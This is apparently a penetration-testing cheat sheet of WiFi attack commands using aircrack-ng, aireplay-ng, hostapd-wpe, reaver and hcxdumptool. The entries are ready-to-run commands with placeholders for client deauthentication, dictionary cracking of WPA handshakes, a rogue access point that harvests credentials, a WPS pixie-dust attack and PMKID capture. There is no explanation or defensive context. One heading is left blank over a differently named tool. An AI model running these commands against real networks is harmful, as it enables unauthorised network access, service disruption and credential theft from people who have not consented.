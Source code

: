 # wifi

#platform/linux #target/remote #cat/RECON #cat/ATTACK

## airmon - Kill processes which can cause trouble
```
airmon-ng check kill
```

## airmon - start interface
```
airmon-ng start <wlan_interface>
```

## airmon - stop interface
```
airmon-ng stop <wlanmon_interface>
```

## NetworkManager - Restart NetworkManager
```
systemctl restart NetworkManager
```

## airodump - listen to everything
```
airodump-ng <wlanmon_interface>
```

## airodump - listen to specific SSID
```
airodump-ng --bssid <mac_address> -c <channel> -w <output_file> <wlanmon_interface>
```

## aireplay - deauth client
```
aireplay-ng --deauth <deauth_count> -c <client_mac_address> -a <mac_address> <wlanmon_interface>
```

## aircrack - crack handshake for PSK
```
aircrack-ng -w <dictionary> <input_file>
```

## hostapd-wpe - launch fake AP
```
hostapd-wpe <hostapd_conf>
```

## kismet - monitor WiFi
```
kismet -c <wlan_interface>
```

## nmcli - set back WiFi interface to managed mode
```
nmcli device set <wlan_interface> managed true
```

## reaver - launch WPS pixiedust attack
```
reaver -i <wlanmon_interface> -b <mac_address> -c <channel> -Z
```

## hcxdumptool - WPA2-PSK PMKID Capture
```
hcxdumptool -i <wlanmon_interface> -o capture.pcapng --enable_status=1 -c <channel>
```

## hcxdumptool - 
```
hcxpcaptool -z test.16800 test.pcapng
```

= wlan_interface: wlan0
= wlanmon_interface: wlan0mon
= deauth_count: 5
= hostapd_conf: /etc/hostapd-wpe/hostapd-wpe.conf
